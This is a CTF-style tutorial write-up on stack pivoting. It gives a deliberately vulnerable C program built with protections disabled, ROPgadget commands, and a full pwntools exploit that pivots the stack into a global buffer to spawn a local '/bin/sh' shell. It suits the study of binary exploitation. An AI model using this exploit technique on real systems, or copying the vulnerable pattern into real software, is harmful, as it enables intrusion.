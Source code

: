 # Simple PWN - 0x09(stack pivoting)
###### tags: `CTF` `PWN` `eductf`

## Stack Pivoting background
[NTUSTISC - Pwn Basic 3 [2019.03.26]](https://youtu.be/iA4Hrr17ooI?t=6865)
[Pwn week1](https://youtu.be/ktoVQB99Gj4?t=7898)
It was used when stack overflow bytes not big enough to access a shellcode but it has another lots of writable space can be accessed.
More detailed info. can refer to [Binary Exploitation (Pwn)](https://youtu.be/5D7tvxpSUUM?t=9543)


## Original Code
```cpp!
#include <stdio.h>
#include <unistd.h>

char name[0x80]

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char s[0x10];

    printf("Give me your name: ");
    read(0, name, 0x80);

    printf("Give me your ROP: ");
    read(0, s, 0x20);

    return 0;
}
```
* You can observe that it has not much stack buffer overflow can use, but it has global variable `name` with space `0x80`(can be another stack)
    ```bash!
    gcc -o stack_pivoting stack_pivoting.c -no-pie -fno-stack-protector -z norelro -zexecstack -static
    ```
* <font color="FF0000">Note that</font>:
must use `mprotect` to change permission of global variable `name` just like [lecture 0x04](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJhgXGKci), add these line in original code
    ```c!
    #include <sys/mman.h>
    mprotect(0x403000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC);
    ```
    **Before `mprotect` - `vmmap`**
    ![](https://imgur.com/z8cK5SM.png)
    ![](https://imgur.com/J6qKJ8N.png)
    **After `mprotect` - `vmmap`**
    ![](https://imgur.com/gNr8Fya.png)

## Exploit
1. Construct `ROP` chain
    ```bash!
    objdump -d -M Intel stack_pivoting | grep "<name>"
    ROPgadget --binary stack_pivoting --only "pop|ret|syscall|leave" > one_gadget
    vim one_gadget
    ```
    ![](https://imgur.com/TYmCYw4.png)
    ![](https://imgur.com/o5L0Uvu.png)
    ![](https://imgur.com/OU9yJU4.png)
    ![](https://imgur.com/tWcfPEN.png)
    ![](https://imgur.com/ix4Phxm.png)
    ![](https://imgur.com/aZN3iu8.png)
    
2. Find address of variable `name`
    ```bash!
    objdump -d -M Intel stack_pivoting | grep "<name>"
    ```
    ![](https://imgur.com/l6OIT2S.png)
3. Whole exploit
    :::spoiler Code
    ```python!=
    from pwn import *

    context.arch = 'amd64'

    r = process('./stack_pivoting')
    raw_input()
    name = 0x4c70c0
    leave_ret = 0x40182d
    pop_rdi_ret = 0x401ecf
    pop_rsi_ret = 0x409efe
    pop_rax_ret = 0x44fd07
    pop_rdx_rbx_ret = 0x485b2b
    syscall = 0x401c84

    ROP = b'/bin/sh\x00'
    ROP += flat(
        pop_rdi_ret, name,
        pop_rsi_ret, 0,
        pop_rdx_rbx_ret, 0, 0,
        pop_rax_ret, 0x3b,
        syscall
    )

    r.sendafter("Give me your name: ", ROP)
    raw_input()
    r.sendafter("Give me your ROP: ", b'a'*0x10 + p64(name) + p64(leave_ret))

    r.interactive()
    ```
    :::
    * First, write `ROP` chain to global variable `name`
    * Next, use 2 `leave ; ret` to pivot `name` as a stack
4. Finally, you got shell!!!
    ![](https://imgur.com/kCyVi4N.png)

## Reference
[mprotect.2 man](https://man7.org/linux/man-pages/man2/mprotect.2.html)
[trace 30個基本Linux系統呼叫第二十二日：mprotect](https://ithelp.ithome.com.tw/articles/10187093)